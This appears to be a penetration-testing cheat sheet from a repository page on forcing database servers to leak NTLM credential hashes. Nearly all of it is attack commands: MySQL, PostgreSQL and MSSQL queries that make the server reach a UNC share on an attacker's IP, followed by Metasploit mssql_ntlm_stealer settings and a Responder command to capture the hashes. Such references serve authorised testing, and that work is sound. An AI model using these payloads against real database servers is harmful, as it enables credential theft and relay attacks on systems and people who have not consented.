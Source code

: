 # 02 - DBMS Backend Relay Attack

Search Tag(s): #mitm #responder #smb #relay #ntlm #sql #sql-injection #scenarios

## 2.1 - MySQL

```
SELECT LOAD_FILE('\\\\<attacker_IP>\\snare\')
```

## 2.2 - PostgreSQL

```
CREATE TABLE test_table(test_column TEXT);
COPY test_table(test_column) FROM '\\\\<attacker_IP>\\snare\';
DROP TABLE test_table;
```

## 2.3 - MSSQL

### 2.3.1 - Manual

```
1> xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_dirtree '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_subdirs '\\<attacker_IP>\snare\'
2> go

1> EXEC master.dbo.xp_fileexist '\\<attacker_IP>\snare\'
2> go
```

### 2.3.2 - Metasploit

```
msf > use auxiliary/admin/mssql/mssql_ntlm_stealer

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set rhosts <target_IP>

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set username <username>

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set password <password>
```

If we use Windows credential, set as below:

```
msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set use_windows_authent true

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > set smbproxy <responder_ip>

msf auxiliary(admin/mssql/mssql_ntlm_stealer) > run
```

Capture hash

```
$ sudo responder -I <interface>
```

---
## References

- [Pwning a Shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)